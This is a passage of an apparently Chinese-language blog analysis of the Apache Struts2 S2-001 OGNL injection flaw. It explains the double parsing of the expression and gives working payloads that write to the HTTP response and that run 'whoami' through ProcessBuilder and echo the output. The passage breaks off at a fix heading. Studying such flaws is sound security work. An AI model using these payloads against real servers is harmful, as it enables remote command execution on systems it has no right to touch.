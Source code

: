 第二遍会去解析` %{@java.lang.Runtime....}`，这里执行了我们想要执行的命令。

### 回显POC

前面简单用了OGNL表达式调用静态方法的形式来执行系统命令` @java.lang.Runtime@getRuntime().exec(command)`

这里S2-001其实是会直接回显的，将替换原有的input标签的内容，这里换一种方式来进行回显，利用Struts2的HttpServletResponse来写入内容。

```
#writer=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse").getWriter(),
#writer.println(xxxxxx),
#writer.flush(),
#writer.close()
```

先从上下文context中取出`HttpServletResponse`的实例，用到的实际是`HttpServletResponseWrapper`

![image-20200428223750035](/images/talk_about_struts2/image-20200428223750035.png)

然后获取当前response的writer对象，在利用该writer来写入任意内容

比如

```
%{#writer=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse").getWriter(),#writer.println("wh1t3p1g"),#writer.flush(),#writer.close()}
```

当然你也可以替换成执行命令后的内容

```
#pb=(new java.lang.ProcessBuilder("whoami")).start(),
#is=#pb.getInputStream(),
#isr=new InputStreamReader(#is),
#br=new BufferedReader(#isr),
#chars=new char[500],
#br.read(#chars),
#str=new java.lang.String(#chars),
// 上面主要获取执行后的内容，下面主要做回显操作
#writer=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse").getWriter(),
#writer.println(#str),
#writer.flush(),
#writer.close()

%{#pb=(new java.lang.ProcessBuilder("whoami")).start(),#is=#pb.getInputStream(),#isr=new java.io.InputStreamReader(#is),#br=new java.io.BufferedReader(#isr),#chars=new char[500],#br.read(#chars),#str=new java.lang.String(#chars),#writer=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse").getWriter(), #writer.println(#str),#writer.flush(),#writer.close()}
```

### 修复

